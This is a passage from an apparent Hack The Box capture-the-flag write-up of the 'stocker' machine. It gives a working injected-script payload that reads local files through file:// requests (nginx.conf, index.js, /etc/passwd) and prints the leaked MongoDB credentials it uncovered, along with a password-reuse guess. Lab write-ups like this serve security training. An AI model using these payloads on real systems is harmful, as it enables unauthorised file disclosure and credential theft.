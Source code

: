 By this vulnerability We can exfiltrate some interesting files. To avoid to get a huge writeup I’ll put here just payloads but the usage it’s ever the same.

First of all I have dumped the `nginx.conf` file.

```bash
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open(\"GET\",\"file:///etc/nginx/nginx.conf\");x.send();</script>
```

In this file We discover that the `dev` application it’s stored in `/var/www/dev`

```bash
## # Virtual Host Configs ## include /etc/nginx/conf.d/*.conf;
 server { listen 80;
 root /var/www/dev;

index index.html index.htm index.nginx-debian.html;
 server_name dev.stocker.htb;
 location / { proxy_pass
http://127.0.0.1:3000;
 proxy_http_version 1.1;
 proxy_cache_bypass $http_upgrade;
 proxy_set_header Upgrade
$http_upgrade;
 proxy_set_header Connection "upgrade";
 proxy_set_header Host $host;
 proxy_set_header X-Real-IP
$remote_addr;
 proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
 proxy_set_header X-Forwarded-
Proto $scheme;
 proxy_set_header X-Forwarded-Host $host;
 proxy_set_header X-Forwarded-Port $server_port;
 } }
```

From this directory We can dump the `index.js` file

```bash
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open(\"GET\",\"file:///var/www/dev/index.js\");x.send();</script>
```

From this file We dump a `mongodb` connection string. Assuming that it is an `easy machine` i guess that the mongodb user password was the same as the ssh user.

```bash
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?authSource=admin&w=1";
```

Then I dumped the `/etc/passwd` file to get the username:

```bash
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open(\"GET\",\"file:///etc/passwd\");x.send();</script>
```
